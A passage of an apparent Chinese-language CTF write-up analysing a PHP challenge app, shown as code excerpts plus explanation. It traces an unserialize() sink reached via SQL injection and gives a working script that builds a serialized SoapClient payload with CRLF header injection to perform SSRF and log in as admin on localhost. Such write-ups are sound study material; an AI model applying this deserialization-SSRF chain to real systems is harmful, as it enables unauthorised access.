 ```php
$mood = unserialize($row[2]);//row[2]就是我们post的mood
```

哪里调用了showmess？在./view/index.php

```php
<?php
if(!$C->check_login())
{
    header('Location: index.php?action=login');
    exit;
}
$data = $C->showmess();
?>
```

showmess的数据来自于数据库，来自我们之前的insert()

```php
            if(isset($_POST['signature']) && isset($_POST['mood'])) {

                $mood = addslashes(serialize(new Mood((int)$_POST['mood'],get_ip())));
                $db = new Db();
                @$ret = $db->insert(array('userid','username','signature','mood'),'ctf_user_signature',array($this->userid,$this->username,$_POST['signature'],$mood));
                echo "hello world";
                if($ret)
                    return true;
                else
                    return false;
```

其中正常情况下，我们插入的mood会被转成int类型，那么我们直接在上传时，burp抓包，修改mood值，是不可取的。我们得选择使用之前的sql注入，变相插入序列化文本，然后之后做反序列化处理。

由于是为了进行SSRF攻击，所以我们选择使用soapclient内置类，作为payload，打入内网。然后我们是要模拟admin在内网登录。打开一个浏览器，我们要带上code还有cookie值，生成序列化文本如下：

```php
<?php
$target = 'http://127.0.0.1/index.php?action=login';
$post_string = 'username=admin&password=jaivypassword&code=89760';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=4kla6qhksreeadoi1jamoo9772'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo bin2hex($aaa);
?>
```

